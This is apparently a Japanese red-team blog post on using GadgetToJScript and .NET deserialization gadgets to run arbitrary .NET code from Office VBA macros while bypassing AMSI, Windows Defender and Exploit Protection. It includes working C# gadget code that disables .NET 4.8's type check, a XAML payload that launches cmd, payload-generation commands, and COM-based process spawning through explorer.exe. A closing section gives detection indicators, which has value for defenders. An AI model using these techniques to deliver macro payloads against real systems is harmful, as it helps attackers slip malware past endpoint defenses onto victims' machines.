

GadgetToJScript を利用した Office VBA のAMSI バイパスと原理

しゅーとです。普段は IoT 機器のリバースエンジニアリングを生業としていますが、最近は流行に乗ってRed Teaming の研究もしています。
今回は WSH (vbs, js, hta) と Office マクロ事情を追ってみました。
WSH (Windows Script Host) は Windows に搭載されているスクリプトエンジンで、VBScript と JScript を実行できます。 Office マクロで動作する機能・言語は様々ありますが、一般的なのは VBA (Visual Basic for Application) です。WSH、特に VBScript と VBA は構文はほとんど同じですが、実行環境は割と違っていたりします。
ステルス性の高いデシアライズ手法
ここ数年の Red Teaming では .NET プログラムを利用したオペレーションが流行っています。
Red Teaming の Initial access は様々なものが存在しますが、特に Windows ユーザの被害が大きいと考えられるのは Office マクロを用いたマルウェア感染です。MITRE ATT&CK からマルウェア感染のパターンを調査したところ、プロセス生成やプロセスインジェクションを伴わないステルスな手法として「デシアライズによる .NET プログラムの実行」を行っているアクターがいくつか存在しました。
- CactusTorch Fileless Threat Abuses .NET to Infect Victims
- The SideWinder campaign continue
- Release the Kraken: Fileless injection into Windows Error Reporting service
デシアライズ手法を用いるビルダーとして有名なものとして、「DotNetToJScript」(以降、D2JS) が存在します。しかし、本ツールは .NET 4.8 で対策され、現在の Windows 環境では利用できません。しかし今では .NET 4.8 に対応したツール「GadgetToJScript」(以降、G2JS) が登場しており、これから先もステルス性の高い侵害手法として利用されることが予想されます。しかし D2JS、特に G2JS の具体的な原理については日本語ではおろか海外文献でもまとまった資料がありません。
本記事では実際に Office マクロのセキュリティ機構、.NET プログラムのデシアライズ手法の検証を行い、D2JS の対策と、それをバイパスする G2JS の手法を説明し、最後に検知に関する観点を記載します。
VBA で .NET プログラムを実行する手法
デシアライズ手法の前に、まずは VBA でどうやって .NET プログラムを実行するか、簡単な手法から紹介します。
プロセス実行
WSH / VBA には当然プログラムを指定して実行する機能が存在します。
WScript.Shell 経由
CreateObject("WScript.Shell").Run "calc.exe"
CreateObject("WScript.Shell").Exec "notepad.exe"
Shell オブジェクトを生成してプログラムを実行する一番ベーシックな方法です。JScript では ActiveXObject を利用して同様の操作が可能です。
これを使って .NET プログラムを呼び出せばいいですし、PowerShell を呼び出せばそこからスクリプトを使ってファイルレスで .NET プログラムを読み込むことができます。下は .NET の MessageBox を実行する PowerShell コードです。
この方法であれば、PowerShell 側で検知回避をすることで何の障害もなく .NET プログラムを読み込み可能です。
Emotet ダウンローダーをはじめとした Office マクロを悪用したマルウェアは、だいたいこの手法を使ってマルウェアをダウンロードし実行しています。（コードを難読化しているくらいです）
じゃあそれ使えば解決ではないか、という声が聞こえてきそうです。はい。現時点の世界のセキュリティ対策の主流ではこれでいけます。ただ PowerShell プロセスの生成を行っているので次世代の EDR 製品にはかなりの確率で検知されます。
WMI 経由
オブジェクトを生成して利用するほかに、既にコンピュータで生成されている WMI の Win32_Process オブジェクトを呼び出してプログラムを実行する方法があります。
r = GetObject("winmgmts:\\.\root\cimv2:Win32_Process").Create("calc.exe", null, null, intProcessID)
こちらは WMI を利用するため、Winmgmt サービスが実行している必要があります。なおこちらもプロセス生成が行われます。
COM オブジェクト経由
Windows に多数登録されている COM オブジェクトを利用してプロセスを生成することもできます。
ShellWindows オブジェクト は Document.Application プロパティを持っていますが、このプロパティには ShellExecute メソッドという任意のプロセスを生成するメソッドを持っています。このプロパティを通して ShellExecute メソッドを呼ぶことでプログラムを実行できます。
9BA05972-F6A8-11CF-A442-00A0C90A8F39 は ShellWindows オブジェクトの CLSID です。
これまで紹介した WScript.Shell および WMI 経由のプロセス生成は、Office マクロで利用する際は Office プログラム(winword.exe, excel.exe)の子プロセスとして実行されます。
Windows にはシステムの堅牢性を上げるために、 Exploit Protection という機能が存在します。この機能には、指定したプログラムによる子プロセス生成を防止する項目が存在します。そのため Exploit Protection にて子プロセスの生成を防止していた場合、実行がブロックされます。しかしこの方法であれば COM オブジェクト経由で実行されるため、COMオブジェクトを持つプロセスが親プロセスとなり、Exploit Protection の制限をバイパス可能です。なお ShellWindows オブジェクトを公開しているのは explorer.exe なので、 explorer.exe が親プロセスとなります。
COM オブジェクトを利用したプロセス生成は他にも様々ありますが、ここでは省略します。
しかしこのコードは、Windows Defender (+クラウド提供による保護) を有効にしていると、実行時に検知され、実行できません。
このようにファイル生成時には検知しなくても、実行時に検知するのは AMSI によるものです。
VBAとAMSI
ここまでに複数の方法でプロセスを起動する方法を書いてきました。
最初の CreateObject("WScript.Shell") は実際の業務でも利用されることもありアンチウイルスソフトでは検知されませんが、最後の COM オブジェクトを使ったプロセス実行手法は VBA では通常利用されることは少なく、こういったコードが含まれている xlsm ファイルはマクロ実行時にアンチウイルスソフトに検知されることがあります。
VBA の AMSI スキャンエンジン
上の COM オブジェクトの単純な呼び出しに関しては問題ありませんが、実際に CreateThread などコードインジェクションを行うようなコードは、ファイルを生成された時点でアンチウイルスソフトに検知されます。以下は metasploit で生成した、net user を実行させるシェルコードを含んだ VBA です。
以下のようにファイル作成時、Windows Defender に検知されます。

このような場合に攻撃者がとる行動は、より高度な難読化です。難読化を行うことでファイルに対する検知を回避することが可能です。
しかしファイルに対する検知回避だけでは不十分です。VBA は実行時に、VBA エンジン(VBE7.DLL) に搭載されている AMSI によって API 呼び出し直前の状態でマッチングされてしまいます。下記は API Monitor で excel.exe の AmsiScanString 呼び出しにブレークポイントを設置し、実行時にブレークされたときの画面です。
AmsiScanString() の2つ目の引数から、VirtualAlloc の呼び出し時点の引数が全て復元された状態でスキャンが動作していることがわかります。
"kernel32.VirtualAlloc(0000000000000000,000000000000011f,0000000000001000,0000000000000040);
kernel32.RtlMoveMemory(,H,0000000000000001);
kernel32.RtlMoveMemory(,00000292c4ba3498,0000000000000001);
...
AMSI とは Antimalware Scan Interfaceの略で、アンチウイルスソフトに依存しない、悪意のあるコンテンツをスキャンするインターフェースです。アンチウイルスソフトは AMSI を利用してメモリ上に読み込まれるコンテンツをスキャンできます。
AMSI が動作するランタイムは複数あり、現在は PowerShell, WSH, VBA, .NET のランタイム用エンジンが存在します。これらのランタイムによってそれぞれエンジンの動作は異なります。
VBA エンジンでは COM オブジェクトや Win32API の全ての呼び出しがふるまいログとして記録され、特定のトリガーによって AMSI プロバイダーにスキャンされるようになっています。
これらの動作の詳細は Microsoft が解説しています。
Bypass AMSI
しかし VBA エンジン (VBE7.DLL) にはいくつかの穴が存在します。COM オブジェクト、Win32API の呼び出しでログが記録されますが、その呼び出しに AMSI のトリガーとなる文字列が含まれなければ AMSI スキャンは走らないのです。
下記は Synactiv が公開した、AMSI トリガーとなる Win32API および COM オブジェクトのメソッド名の一部です。
-
Win32API
 -
COM Object
これは VBE7.DLL をリバースエンジニアリングしてトリガーとなる CRC32 ハッシュを抽出し、文字列と突合したものです。
ここに記載したのは一部であり、Synactiv が作成したリストの全ては当該リンクを確認してください。ただしリンク先のリストは全てのトリガーをカバーした完全なデータではありません。
このように VBA の AMSI エンジンは完全ではなく、トリガーに引っかからない API のみを利用すれば AMSI バイパスが行えることがわかります。しかしリストには侵害時によく利用するものが含まれているので、そのまま API を呼び出して侵害を行うのは困難です。
これの対抗策として 攻撃者・RedTeamer は複数の手法を開発しています。
- 外部プログラムにメイン処理を丸投げ
- PowerShell に引数を与えて実行 (→大多数のダウンローダが行う手法)
- 悪性ファイルをドロップして何らかの方法で実行
- VBA でメイン処理を行わない
- DDE、Excel4.0 は AMSI に対応していないため AMSI を気にしなくてよくなる
- AMSI にトリガーされないように工夫して侵害を行う
これらの手法には一長一短があります。特に一番最初の丸投げ手法は VBA の実装が楽な分、プロセス生成を伴ったりファイルのドロップが必要になるケースがあって、別のスキャン手法で検知される可能性が高いです。
最後の AMSI トリガーを回避する手法は実装が大きくなりがちですが、一度回避手法を確立してしまえば対策されるまでは非常に有効な手段になります。
ちなみに2つ目の DDE, Excel4.0 は現在は有効なパターンが多いですが、最近のアンチウイルスソフトはこれらを多く利用している時点で検知してくるようなので銀の弾丸というわけでもありません。
今回紹介する GadgetToJScript (G2JS) は工夫して侵害するパターンです。ただし基本的な実装は G2JS 側で肩代わりしてくれるので、利用者側は難読化処理を施すだけで利用可能です。
GadgetToJScript を利用した .NET プログラムの読み込み
今回メインとなる話がこれです。
プロセス生成の項で、WSH が GetObject (VBScript) あるいは ActiveXObject (JScript) を使って、COM オブジェクトを利用できることを示しました。
この手法は、COM オブジェクトを経由して .NET オブジェクトを読み込むことができないかという発想からきています。根本的な原理については James Forshaw 氏のブログ記事を読むと理解が進むのでぜひ読んでください。
この手法は COM オブジェクトを操作できるあらゆるプログラミング言語で適用できます。氏のブログでは C# で PoC が書かれていましたが、それを WSH / VBA でもかけるという話です。
デシリアライズの原理
D2JS、G2JS の説明の前に、本記事でも C# で実際に “Hello, World” という値を持つ String オブジェクトをシリアライズ・デシアライズできることを確認してみましょう。
using System;
using System.IO;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Binary;
/**
Ref:
https://googleprojectzero.blogspot.com/2017/04/exploiting-net-managed-dcom.html
https://github.com/med0x2e/GadgetToJScript
https://silentbreaksecurity.com/re-animating-activitysurrogateselector/
**/
// Definitely non-serializable class.
class NonSerializable {
private string _text;
public NonSerializable(string text) {
_text = text;
}
public override string ToString() {
return _text;
}
}
// Custom serialization surrogate
class _SurrogateSelector : SurrogateSelector
{
public override ISerializationSurrogate GetSurrogate(Type type, StreamingContext context, out ISurrogateSelector selector)
{
selector = this;
if (!type.IsSerializable)
{
Type t = Type.GetType("System.Workflow.ComponentModel.Serialization.ActivitySurrogateSelector+ObjectSurrogate, System.Workflow.ComponentModel, Version=3.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35");
return (ISerializationSurrogate)Activator.CreateInstance(t);
}
return base.GetSurrogate(type, context, out selector);
}
}
class Program
{
static void TestObjectSerializedRef() {
BinaryFormatter fmt = new BinaryFormatter();
MemoryStream stm = new MemoryStream();
fmt.SurrogateSelector = new _SurrogateSelector();
fmt.Serialize(stm, new NonSerializable("Hello World!"));
stm.Position = 0;
// Should print Hello World!.
Console.WriteLine(fmt.Deserialize(stm));
}
static void Main()
{
TestObjectSerializedRef();
}
}
このコードの説明をします。
自作クラス NonSerializable はコンストラクタで String オブジェクトを受け取るようにしています。また ToString をオーバーライドし String オブジェクトを返すようにします。ToString は、 C# では全てのクラスが暗黙的に Object クラスを継承し、文字列表現をリターンできるようにしている ため、Console.WriteLine() が呼ばれると、このクラスはコンストラクタで渡された “Hello World!“を返します。
ただしこのクラスは Serializable アトリビュートを持っていないので、本来であればシリアライズできません。
そんなクラスを SurrogateSelector.Serialize でシリアライズします。
Serialize は Serializable アトリビュートが付いたクラスしかシリアライズしませんが、SurrogateSelector クラスの GetSurrogate メソッドをオーバーライドし、シリアライズできないクラスでもサロゲートクラスに変換させるようにすることで任意のクラスをシリアライズできるようにしています。
このコードをcsc.exeでコンパイルし、実行します。
例外が発生しました。発生箇所は ObjectSurrogate.GetObjectDataです。
これは最近の Windows10 / WindowsServer で予期された動作です。
Forshaw 氏のブログが公開された後、Microsoft は ObjectSurrogate の任意にデシアライズできる実装について好ましく思っておらず、.NET 4.8 のアップデートでデシアライズ時の型チェックを行うようにしました。
private sealed class ObjectSurrogate : ISerializationSurrogate
{
public void GetObjectData(object obj, SerializationInfo info, StreamingContext context)
{
if (!AppSettings.DisableActivitySurrogateSelectorTypeCheck &&
!(obj is ActivityBind) && !(obj is DependencyObject))
{
throw new ArgumentException("obj");
}
// ...
}
}
追加されたのは !AppSettings.DisableActivitySurrogateSelectorTypeCheck です。この追加によって、シリアライズ化可能なオブジェクト以外をデシアライズすることはできなくなりました。
しかしこれは C# で実装する場合においては、該当のメンバを True にしてしまえば何も問題ありません。
上のコードを次の差分のように修正します。
@@ -2,6 +2,7 @@
using System.IO;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Binary;
+using System.Configuration;
@@ -54,6 +55,7 @@
static void Main()
{
+ ConfigurationManager.AppSettings.Set("microsoft:WorkflowComponentModel:DisableActivitySurrogateSelectorTypeCheck", "true");
TestObjectSerializedRef();
}
}
型チェックが無効になったため、シリアライズ・デシアライズに成功しました。これが .NET 4.8 以降における強制シリアライズ手法です。
DotNetToJScript の栄枯盛衰
D2JS は COM コンポーネントを経由した .NET のデシアライズの原理をもとに、シリアライズしたクラスアセンブリを BinaryFormatter でデシリアライズし、クラスコンストラクタを呼び出すスクリプトを作成するビルダーツールです。本ツールは Nick 氏 (@monoxgas) によって作成されました。
本ツールでは引数に .NET クラスアセンブリを指定することで、アセンブリがシリアライズされ、JScript や VBSciprt、VBA などのスクリプト言語でデシアライズするスクリプトが生成されます。
なお呼び出される .NET プログラム側では、COM コンポーネント経由で呼び出されるように ComVisible アトリビュートを付けたうえでコンパイルをする必要があります。
[ComVisible(true)] public class TestClass { ...
次のコードが D2J で出力したものです。
コードの通り、Base64エンコードした .NET オブジェクトを COM コンポーネント経由でデシアライズしています。デシアライズしたクラスオブジェクトを D/Invoke でインスタンス作成し、 .NET オブジェクトのコンストラクタが実行されます。
デシアライズの起点となるのは BinaryFormatter です。
セキュリティの面からみても、このように外部からのパラメータを BinaryFormatter に与えることがいかに危険な行為かがお分かりいただけるでしょうか。
中国系サイバーグループが攻撃に悪用している脆弱性のリストにもあげられている Microsoft Exchange Server の脆弱性 (CVE-2020-0688) も、外部から渡される _VIEWSTATE パラメータの値をデシアライズするという実装が脆弱性の原因となりました。
このスクリプトのデシアライズ自体に大きな問題はないのですが、気になるのはビルダー側でシリアライズするコードです。以下は D2JS の Program.cs です。
byte[] assembly = File.ReadAllBytes(assembly_path);
(..snip..)
BinaryFormatter fmt = new BinaryFormatter();
MemoryStream stm = new MemoryStream();
fmt.Serialize(stm, mscorlib_only ? BuildLoaderDelegateMscorlib(assembly) : BuildLoaderDelegate(assembly));
見ての通り、このコードは ObjectSurrogate で任意にシリアライズされる前提で、何の考慮もせずにシリアライズしています。
D2JS はリリース当時、クロスプラットフォームで .NET プログラムを読み込める便利ツールとして非常に使われていましたが、先述の通り .NET 4.8 での ObjectSurrogate.GetObjectData の変更によって、最新の Windows 10, Windows Server では動作しなくなりました。
ysoserial.net とガジェットチェーン
話は変わってガジェットチェーンの話。D2JS とは別の成果として、Java の ysoserial に触発された ysoserial.net プロジェクトにおいて、.NET プログラムを複数のクラスを経由して読み込むガジェットチェーンがいくつか発見されていました。
中でも使いやすいガジェットチェーンとして MicroFocus のブログ で提案された、TextFormattingRunProperties ガジェットがあげられます。このガジェットの利点はガジェットペイロードのフットプリントが小さいことです。
TextFormattingRunProperties で cmd.exe の実行
TextFormattingRunProperties はテキストフォーマットの書式設定に関する情報を保持するクラスです。このクラスは Serializable アトリビュートを付与されているためDisableActivitySurrogateSelectorTypeCheck には引っかからずにデシアライズが可能です。また本クラスの ForegroundBrush プロパティは xaml 形式で定義が可能なので、任意のオブジェクトをソースコードに記載できコンパクトな形で実装できます。
以下は TextFormattingRunProperties を利用して xaml で定義されたオブジェクトをデシアライズさせ、電卓を実行するコードです。
using System;
using System.IO;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Binary;
using System.Configuration;
/**
Ref:
https://community.microfocus.com/t5/Security-Research-Blog/New-NET-deserialization-gadget-for-compact-payload-When-size/ba-p/1763282
**/
[Serializable]
public class TextFormattingRunPropertiesMarshal : ISerializable
{
string _xaml;
public void GetObjectData(SerializationInfo info, StreamingContext context)
{
Type t = Type.GetType("Microsoft.VisualStudio.Text.Formatting.TextFormattingRunProperties, Microsoft.PowerShell.Editor, Version=3.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35");
info.SetType(t);
info.AddValue("ForegroundBrush", _xaml);
}
public TextFormattingRunPropertiesMarshal(string xaml)
{
_xaml = xaml;
}
}
class Program
{
static void Main()
{
string xaml_payload = @"<ResourceDictionary
xmlns=""http://schemas.microsoft.com/winfx/2006/xaml/presentation""
xmlns:x = ""http://schemas.microsoft.com/winfx/2006/xaml""
xmlns:System = ""clr-namespace:System;assembly=mscorlib""
xmlns:Diag = ""clr-namespace:System.Diagnostics;assembly=system"">
<ObjectDataProvider x:Key = ""Calc"" ObjectType = ""{x:Type Diag:Process}"" MethodName = ""Start"">
<ObjectDataProvider.MethodParameters>
<System:String>cmd</System:String>
<System:String>/c calc</System:String>
</ObjectDataProvider.MethodParameters>
</ObjectDataProvider>
</ResourceDictionary>";
TextFormattingRunPropertiesMarshal payload = new TextFormattingRunPropertiesMarshal(xaml_payload);
BinaryFormatter fmt = new BinaryFormatter();
MemoryStream stm = new MemoryStream();
fmt.Serialize(stm, payload);
stm.Position = 0;
fmt.Deserialize(stm);
}
}
このコードでは ForegroundBrush プロパティに xaml オブジェクトを代入させシリアライズを行っています。
これをコンパイルして実行したとき、Process.Start("cmd.exe /c calc.exe") が定義された xaml テキストがデシアライズされ、電卓が起動しました。
なお実行時は例外が発生します。
なぜ ForegroundBrush ？
TextFormattingRunProperties を使ったデシリアライズは、なぜ ForegroundBrush を利用するのでしょうか？他のプロパティではダメなのでしょうか？この疑問を解決する記述がどこにも見当たらなかったため、私は TextFormattingRunProperties の実装を確認することにしました。
WinDbg でコンパイルした実行ファイルをデバッグすると、TextFormattingRunProperties は Microsoft.PowerShell.Editor.dll で実装されていることがわかります。次に dll のファイルパスを調べたところ、私の環境では以下に位置していました。
C:\Windows\Microsoft.NET\assembly\GAC_MSIL\Microsoft.PowerShell.Editor\v4.0_3.0.0.0__31bf3856ad364e35\Microsoft.PowerShell.Editor.dll
これを dnSpy でデコンパイルし、該当箇所を探します。
コンストラクタを見れば一目瞭然でした。コンストラクタのプロパティの初期化が ForegroundBrush から始まっています。コンストラクタ実行時に真っ先に ForegroundBrush のデシアライズが行われますが、そこで xaml で仕込んだ Process.Start が実行されます。当然 Brush クラスの正しいオブジェクトではないので例外が発生しますが、例外発生前に Process.Start は実行されているので問題ありません。
なお xaml で正しい ForegroundBrush プロパティを実装すれば次に初期化される BackgroundBrush で任意のオブジェクト定義を行うことも可能ですが、コンパクトに任意オブジェクトをシリアライズしたいならやはり ForegroundBrush で仕込む必要があるということです。
また正しくないデシアライズによって例外が発生しコンストラクタが中断されるため、複数プロパティについて AddValue() で xaml を定義し同時に複数オブジェクトをデシリアライズするのは難しいこともわかります。
GadgetToJScript の登場
D2JS が .NET 4.8 の変更で使えなくなったあと、 D2J の作者である Nick 氏 によって、TextFormattingRunProperties ガジェットを利用し DisableActivitySurrogateSelectorTypeCheck を true にするという XAML 形式のオブジェクトが作成され、 ysoserial.net にマージされました。このマージされたコードをもとに作成したのが、改良版 D2JS ともいえる GadgetToJScript です。
任意のオブジェクトをデシアライズするために .NET のガジェットチェーンを使っているから Gadget が名称についているのでしょう。
G2JS の実装
G2JS で生成されたスクリプトの最初の動作として、.NET 4.8 以降の環境で実行させるときは初めに TextFormattingRunProperties ガジェットを経由して .NET 4.8 で変更されたデシアライズ時の型チェックを無効にします (stage1)。そして次にユーザが指定した .NET プログラムをデシアライズします (stage2)。
つまりデシアライズを2回行うようになりました。
ただ D2JS も G2JS も、.NET プログラムを読み込む起点はどちらも BinaryFormatter を利用しているため、これらのツールによって生成されるスクリプトに大きな違いはありません。
ウォークスルー
G2JS で生成されたスクリプトはそのままだと Windows Defender のリアルタイムスキャンで検知されるので、検証される方はあらかじめオフにしてください。
テストコードとして、メッセージボックスを表示するだけの C# プログラムを作成します。
using System;
using System.Windows.Forms;
namespace Test
{
public class Program
{
public Program()
{
MessageBox.Show("Hello, World!");
}
}
}
ここで大事なのはパブリッククラスであること、クラスのコンストラクタを実装することです。
ファイルを hello.cs として保存します。
G2JS in VBScript
インプットファイルとして hello.cs を指定して G2J を実行し、vbs ファイルを生成します。
> GadgetToJScript.exe -b -w vbs -c hello.cs -o test -d System.dll -d System.Windows.Forms.dll
[+]: Generating the vbs payload
[+]: First stage gadget generation done.
[+]: Compiling your .NET code located at:hello.cs
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: test.vbs
test.vbs が生成されているので、ダブルクリックすると、メッセージボックスが表示されます。
G2JS in VBA
次は VBA で実行してみます。
> GadgetToJScript.exe -b -w vba -c hello.cs -o test -d System.dll -d System.Windows.Forms.dll
Office VBA 上でも .NET プログラムを実行することができました。
2020/10 現時点においては .NET プログラムが読み込まれるまでの処理で AMSI トリガーとなるメソッドが含まれていないため、G2JS を使った侵害は AMSI バイパスとなりえます。
図の通り、G2JS ではデシリアライズ後に最終的に Assembly.Load によって .NET プログラムが読み込まれるため、clr.dll による AmsiScanBuffer がコールされます。そのため RedTeaming 時は別途 .NET プログラム上で難読化などの検知回避が必要です。
G2JS + COM オブジェクトを利用した別プロセスの起動 (Enable Windows Defener)
G2JS を使えばどんな .NET プログラムも実行することができますが、今回は VBA 単体だと AMSI + Windows Defender によって検知されてしまう、COM オブジェクトを使ったプロセス生成にチャレンジしてみます。
下記の C# コードを用いて、G2JS でスクリプトを生成します。
(..snip..)
System.Type com = Type.GetTypeFromCLSID(Guid.Parse("9BA05972-F6A8-11CF-A442-00A0C90A8F39"), "127.0.0.1");
dynamic obj = System.Activator.CreateInstance(com);
obj.Item().Document.Application.ShellExecute("notepad.exe","","","open", 1);
(..snip..)
ただし生成したスクリプトをそのまま動かすと Windows Defender によって検知されます。そこで独自にカスタマイズした難読化ツールで難読化し、実行してみます。
難読化ツールの詳細については詳細を控えます。
マクロを有効にすると、.NET プログラムが実行され、親プロセスが explorer.exe であるメモ帳が起動しました。Office プロセスのメモリ上に .NET プログラムが読み込まれていることが確認できます。
以上のように Windows Defender および クラウド保護を有効にした状態、かつ Exploit Protection による子プロセス不許可が有効な状態であっても、全てをバイパスして子プロセスを生成することが可能です。
対策
G2JS のデシアライズ手法を用いて .NET プログラムを読み込むことで、Office プロセス内で VBA の領域を離れて侵害が可能であることを実証しました。
この手法はあくまで VBA の仕様内で実現されるため、マクロを無効にする以外の有効な防止策はありません。
なお COM オブジェクト経由で .NET を利用している関係上、VBA を動かしているプロセス(今回は EXCEL.EXE)は clr.dll が呼ばれます。これにより ProcessHacker でプロセスを確認すると .NET 関連のタブが表示されるようになりますが、そもそも VBA で .NET Framework を利用するシーンはたくさんあるため、これは何のインジケータにもなりません。
検知
ただし G2JS にも弱点は存在します。それは、デシアライズするために必須なメソッドが特徴的である点です。
.NET プログラムをデシアライズするために必須なコードは以下です。
actCtx.ManifestText = manifest- COM オブジェクトを登録せずに .NET オブジェクトを利用するために必須
stm_1.WriteByte- BinaryFormatter.Deserialize() の引数は Stream クラスが必要であり、MemoryStream にバイト配列を書き込むために必須
fmt_1.Deserialize_2(stm_1)- .NET プログラムのデシリアライズに必須
これらのメソッド呼び出しは PowerShell のように簡単に難読化できるものではありません。そのため、文字列や変数名のみの簡易的な難読化であれば、以下のようにメソッド名が残ります。
pmfrxyltsrzjjj.ManifestText = djsktksnmbak
lzadypxlktswisq.WriteByte i
Set gmjxujigkjmudfmhkfzb = xaobbncueaofydar.Deserialize_2(lzadypxlktswisq)
単体で利用した場合にはともかく、1つの VBA 内でこれら 3 つが同時に利用されるパターンは .NET プログラムのデシアライズを意図していると判断できるため、検知に有用と考えます。
また、Microsoft がこれらのメソッド名について AMSI トリガーを実装してしまえば、攻撃者側が以下のリフレクション手法を使っても動的解析で検知できる可能性が高いと考えられます。
リフレクションによる難読化について
VBA にも貧弱ながらリフレクションが存在し、より高度な難読化が可能です。 CallByName です。例えば fmt_1.Deserialize_2(stm_1) についてはリフレクションを用いることで以下のように記載可能です。
Set o1 = CallByName(fmt_1, "Deserialize_2", VbMethod, stm_1)
このコードを文字列を別変数に代入し難読化すると、以下になります。
Set cuzmicydpdcpnjnkcl = CallByName(ygftmlcabsflnu, wsxfcgrolbfpixsfcosr, idasmadwe, htzojnmestlccsdkpcns)
このとおり、Deserialize_2 の文字列がなくなりました。動的解析を行えば最終的に復元されますが、本メソッド名は現時点では AMSI トリガーに含まれないため AMSI プロバイダに渡されず、検知されません。
CallByName の悪性度
リフレクションを用いることで静的解析での検知は難しくなりました。ただしこの手法だと、リフレクション特有のメソッド CallByName がコード中に現れます。
三浦氏らの論文によると、CallByName の悪性マクロでの出現率は 51.3% に対して、良性マクロでの出現率は 0.1% とされます。
このことから、リフレクションによる難読化を使われてしまうとコードの静的解析による G2JS 特有の検知を行うことはできませんが、いくつかの検知手法と組み合わせることで汎用的に悪性マクロを検知できるものと考えます。
まとめ
任意の .NET プログラムをデシリアライズして読み込む原理と、それを利用して Windows Script Host (WSH) 上で読み込む GadgetToJScript の実装を解説しました。
D2JS の対策とアンチウイルスベンダーの検知技術の向上により現在の Red Teming ではそもそも VBA をあまり使わない方法にシフトしつつある気もしますが、G2JS を有効に使うアクターはこれからも存在し続けるはずです。この記事が助けになれば幸いです。
Reference
- Office VBA + AMSI: Parting the veil on malicious macros
- Advanced TTPs – DotNetToJScript (Part 1)
- GadgetToJScript
- Exploiting .NET Managed DCOM
- Re-Animating ActivitySurrogateSelector
- ysoserial.net
- New .NET deserialization gadget for compact payload. When size matters
- Bag-of-wordsを用いた悪性マクロの検知手法の提案
- AMSI-Bypass